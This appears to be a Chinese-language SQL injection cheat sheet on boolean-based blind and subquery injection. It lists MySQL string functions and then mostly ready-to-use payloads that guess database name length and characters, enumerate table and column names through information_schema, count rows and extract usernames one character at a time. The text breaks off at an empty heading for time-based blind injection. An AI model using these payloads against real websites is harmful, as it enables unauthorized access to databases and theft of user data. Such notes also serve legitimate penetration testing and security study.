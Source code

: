 #### 布尔盲注
常用函数
- char() 解ASCII码
- mid()截取字符串
- substr()截取字符串
- count()计算查询结果的行数
- concat()查询结果合并但保持原有行数
- group_concat()查询结果合并但都放在一行中
- ascii() 查询ascii码
- left() 左边第一个字符
- right() 右边第一个字符
```
# 猜数据库长度
id=1 and (length(database()))>1
id=1 and (length(database()))>50
# 猜第一个字符
and ascii(mid(database(),1,1))>1
# 查询当前数据库所有表名
and (select count(table_name)from information_schema.tables where tables_schema=database())>1
# 查询第一个表的长度
and (select length(table_name)from information_schema.tables where tables_schema=database()limit 0,1)>10
# 查表的第一个字符
and ascii(mid((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>1
# 查某个表有几个字段
and(select count(column_name)from information_schema.columns where table_name = 'xxx' and table_schema = database())>2
# 查第一个字段长度
and length((select column_name from information_schema.columns where table_name='xxx' and table_schema= database()limit 0,1))>1
# 查字段的第一个字符
and ascii(mid((select column_name from information_schema.columns where table_schema = 'db83231_asfaa' and TABLE_NAME ='xxx' limit 0,1),1,1))>105
# 查字段行数
and (select count(*) from db83231_asfaa.atelier)>4
# 查字段内容
length((select username from security.users limit 0,1))>10
ascii(mid((select username from security.user limit 0,1),1,1))>100
```
#### 子查询注入（布尔盲注）

```
通过if语句嵌套子查询进行判断
子查询格式：select * from users where id=(select username from users);
?id=if(1=1,1,(select table_name from information_schema.tables))
?id=if(1=2,1,(select table_name from information_schema.tables))
```
![1.png](https://i.loli.net/2020/03/12/iEx16QYvFAZblSK.png)

#### 延时盲注
